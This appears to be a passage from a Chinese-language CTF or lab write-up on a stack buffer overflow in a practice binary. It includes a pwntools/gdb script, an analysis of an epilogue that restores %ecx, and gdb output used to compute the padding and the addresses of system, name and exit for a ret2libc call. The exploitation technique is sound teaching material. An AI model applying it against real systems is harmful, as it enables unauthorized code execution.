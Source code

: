 ```python
import pwn
from pwn import gdb, process
import struct


def p32s(*i):
    return struct.pack("<"+"I"*len(i), *i)


p = gdb.debug('./question32', '''
b question.c:13
continue
''')
p.interactive()
```

观察程序的 epilogue 部分，`main()` 在 prologue 部分保存了 `%ecx`、`%edi`、`%ebx` 寄存器的值，在清栈阶段会恢复这些寄存器。

```assembly
   leal	-12(%ebp), %esp
   popl	%ecx
   popl	%ebx
   popl	%edi
   popl	%ebp
   leal	-4(%ecx), %esp
   ret
```

需要注意的是 `%ecx` 寄存器的值会被用作 `%esp` ，而我们覆写返回地址必然导致 `%ecx` 寄存器的值被覆写，所以需要提前算好 `leal -4(%ecx), %esp` 指令执行后 `%esp` 指向的位置，让 `%esp` 刚好指向我们期望的 `system` 函数地址。 

脚本启动 gdb 后先计算下 `&buffer` 到 `movl -12(%ebp), %esp` 这条指令后的 `%esp` 的距离，也就是从`buffer`一路写到栈上保存的 `%ecx` 前所需填充的长度。

```plaintext
gdb-peda$ p &buffer
$1 = (char (*)[100]) 0xffffd0dc
gdb-peda$ distance 0xffffd0dc
From 0xffffd14c (SP) to 0xffffd0dc: -112 bytes, -28 dwords
gdb-peda$
```

得到长度后简单计算下 `&buffer(0xffffd0dc) + padding_size(112) + register(4) * 4` 等于 `0xffffd1bc`，这个地址就是我们溢出后覆写的返回地址所在位置，这个地址加上 4 就是 `%ecx` 的取值了。

最后获取 `system` 函数的地址和 `name` 的地址，作为 `system` 函数的返回地址我们再获取一下 `exit` 函数的地址。

```plaintext
gdb-peda$ p &system
$1 = (<text variable, no debug info> *) 0xf7dcbcb0 <system>
gdb-peda$ p &name
$2 = (char (*)[100]) 0x804c060 <name>
gdb-peda$ p &exit
$3 = (<text variable, no debug info> *) 0xf7dbe1c0 <exit>
gdb-peda$
```
